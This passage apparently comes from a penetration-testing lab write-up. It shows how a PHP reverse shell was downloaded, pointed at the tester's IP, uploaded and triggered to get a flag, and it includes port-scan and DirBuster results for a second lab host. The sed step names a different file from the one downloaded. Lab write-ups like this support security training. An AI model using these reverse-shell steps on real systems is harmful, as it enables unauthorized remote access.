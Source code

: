 {% tab title="Generate PHP RevShell" %}
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sed -i 's/127.0.0.1/172.16.64.10/' php-payload.php
```
{% endtab %}

{% tab title="Trigger from browser" %}
```
Simply open:
http://75ajvxi36vchsv584es1.foocorp.io/app/upload/php-reverse-shell.php
```
{% endtab %}
{% endtabs %}

{% hint style="success" %}
**Flag encountered through PHP reverse shell**

```
$ cat flag.txt
Congratulations, you got this!
$ pwd
/var/www/html
```
{% endhint %}

### ✔️172.16.64.92 (Linux 3.12 - 95%)

| Port      | State | Service | Version                         |
| --------- | ----- | ------- | ------------------------------- |
| 22/tcp    | open  | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 53/tcp    | open  | domain  | dnsmasq 2.75                    |
| 80/tcp    | open  | http    | Apache httpd 2.4.18             |
| 63306/tcp | open  | mysql   | MySQL 5.7.25-0ubuntu0.16.04.2   |

{% tabs %}
{% tab title="OWASP Dirbuster 1.0-RC1" %}
* Target URL: [http://172.16.64.](http://172.16.64.81)92
* File Extension: \*
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
{% endtab %}

{% tab title="Report" %}
```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Thu Jul 22 17:24:49 EDT 2021
--------------------------------

http://172.16.64.92:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/images/
/assets/
/assets/js/
/assets/css/
/assets/fonts/
/assets/sass/
/assets/css/images/
/assets/sass/libs/
```